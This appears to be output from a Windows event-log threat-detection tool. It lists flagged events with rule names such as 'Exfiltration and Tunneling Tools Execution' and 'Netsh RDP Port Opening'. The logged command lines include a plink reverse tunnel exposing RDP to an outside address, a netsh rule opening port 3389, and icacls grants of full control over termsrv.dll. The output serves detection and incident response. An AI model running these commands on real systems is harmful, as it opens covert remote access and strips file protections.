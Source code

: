     [+] Detection: Suspicious Command Line
    ┌─────────────────────┬──────┬──────────────────────────────┬─────────────────────┬─────────────────────────────┬───────────────────────────────────┐
    │     system_time     │  id  │       detection_rules        │    computer_name    │ Event.EventData.CommandLine │           process_name            │
    ├─────────────────────┼──────┼──────────────────────────────┼─────────────────────┼─────────────────────────────┼───────────────────────────────────┤
    │ 2019-02-13 18:03:28 │ 4688 │ ‣ Exfiltration and Tunneling │ "PC01.example.corp" │ <empty>                     │ C:\Users\user01\Desktop\plink.exe │
    │                     │      │ Tools Execution              │                     │                             │                                   │
    └─────────────────────┴──────┴──────────────────────────────┴─────────────────────┴─────────────────────────────┴───────────────────────────────────┘

    [+] Detection: Suspicious Process Creation
    ┌─────────────────────┬────┬──────────────────────────────────────────┬────────────────────────────────┬────────────────────────────────────────────────────┬────────────────────────────────────────────────────┐
    │     system_time     │ id │             detection_rules              │         computer_name          │               Event.EventData.Image                │                    command_line                    │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-02-16 10:02:21 │ 1  │ ‣ Exfiltration and Tunneling             │ "PC01.example.corp"            │ C:\Users\IEUser\Desktop\plink.exe                  │ plink.exe 10.0.2.18 -P 80 -C -R 127.0.0.3:4444:127 │
    │                     │    │ Tools Execution                          │                                │                                                    │ .0.0.2:3389 -l test -pw test                       │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-03-17 20:18:09 │ 1  │ ‣ Netsh Port or Application              │ "PC04.example.corp"            │ C:\Windows\System32\netsh.exe                      │ netsh advfirewall firewall add rule name="Remote D │
    │                     │    │ Allowed                                  │                                │                                                    │ esktop" dir=in protocol=tcp localport=3389 profile │
    │                     │    │ ‣ Netsh RDP Port Opening                 │                                │                                                    │ =any action=allow                                  │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-03-17 20:20:17 │ 1  │ ‣ File or Folder Permissions             │ "PC04.example.corp"            │ C:\Windows\System32\icacls.exe                     │ "C:\Windows\System32\icacls.exe" C:\Windows\System │
    │                     │    │ Modifications                            │                                │                                                    │ 32\termsrv.dll /grant %%username%%:F               │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-03-17 20:20:17 │ 1  │ ‣ File or Folder Permissions             │ "PC04.example.corp"            │ C:\Windows\System32\icacls.exe                     │ "C:\Windows\System32\icacls.exe" C:\Windows\System │
    │                     │    │ Modifications                            │                                │                                                    │ 32\termsrv.dll /grant *S-1-1-0:(F)                 │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤